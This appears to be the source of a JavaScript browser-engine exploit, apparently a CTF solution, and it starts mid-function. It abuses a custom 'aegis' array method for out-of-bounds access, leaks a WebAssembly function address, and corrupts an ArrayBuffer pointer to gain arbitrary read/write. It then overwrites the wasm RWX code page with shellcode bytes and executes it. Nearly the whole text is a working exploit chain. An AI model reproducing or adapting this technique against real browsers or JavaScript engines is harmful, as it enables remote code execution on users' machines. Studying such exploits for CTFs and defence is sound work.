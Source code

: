 ```javascript
  }
  return ("0x" + hi.toString(16) + "-" + lo.toString(16));
}


let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports._Z3addii;




function pwn () {


  let arr = [0x1234, 0x1338, 3.3];
  let leaked_array = [u2d(0xdada, 0xdada,), f, f, f];
  let ab = new ArrayBuffer(0x1338);


  arr.aegis(6, 0x1000);
  arr.aegis(8, 0x1000);


  for(let i = 0; i < 100; i++) {
    tmp = d2u(arr[i]);
    console.log(i + " : " + hex(tmp[0], tmp[1]));
  }


  // 28 -> wasm function addr
  let wasm_addr = d2u(arr[28]);


  // 37 -> arbitrary read/write
  arr[37] = u2d(wasm_addr[0] - 1, wasm_addr[1]);
  let dv = new DataView(ab);
  lo = dv.getUint32(0x18, true);
  hi = dv.getUint32(0x18 + 4, true);


  console.log(hex(lo, hi));
  arr[37] = u2d(lo - 1 - 0x120, hi);
  rwx_lo = dv.getUint32(0, true);
  rwx_hi = dv.getUint32(4, true);


  console.log(hex(rwx_lo, rwx_hi));


  arr[37] = u2d(rwx_lo, rwx_hi);
  for (let i = 0; i < 10; i++) {
    dv.setUint32(4 * i, 0xcccccccc, true);
  }


  f();
}


pwn();
```